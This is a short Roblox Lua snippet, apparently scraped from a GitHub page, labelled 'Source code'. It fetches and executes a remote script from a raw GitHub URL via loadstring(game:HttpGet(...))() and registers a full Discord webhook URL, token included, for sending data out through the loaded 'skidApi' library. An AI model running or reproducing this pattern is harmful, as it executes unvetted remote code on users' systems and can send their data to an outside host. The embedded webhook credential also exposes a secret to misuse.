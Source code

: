 skidApi = loadstring(game:HttpGet('https://raw.githubusercontent.com/Vaiziz/Puppywaree/main/Lua.lua'))()
skidApi:sendWebhook('https://discord.com/api/webhooks/929366248230375505/RfJj3nPUrgQ9ooovSv0n9hRNCcYn4DI8uqjO64u9UdZpVXkTKB26ZJ7GUnx6QNRXhZlM')

